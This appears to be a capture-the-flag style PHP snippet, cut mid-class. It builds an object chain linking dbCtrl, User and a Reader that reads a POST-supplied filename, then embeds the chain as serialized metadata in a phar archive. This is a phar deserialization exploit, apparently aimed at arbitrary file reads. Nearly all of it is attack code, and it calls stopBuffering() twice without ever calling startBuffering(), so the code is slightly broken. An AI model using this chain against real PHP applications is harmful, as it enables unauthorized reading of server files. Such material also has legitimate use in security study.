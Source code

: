 ```
        $reader->read($_POST['filename']);
    }
    public function __toString()
    {
        $this->nickname->backup=$this->backup;
        $user = new User();
        $user->id = $_SESSION['id'];
        $user->nickname = $_SESSION['token'];
        return serialize($user);
    }
}

$a = new dbCtrl();
$b = new User();
$b -> backup = new Reader();
$a -> token = $b;

$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub("<?php __HALT_COMPILER();?>");
$phar -> addFromString('test.txt','test');
$object = $a;
$phar -> setMetadata($object);
$phar -> stopBuffering();

?>
```
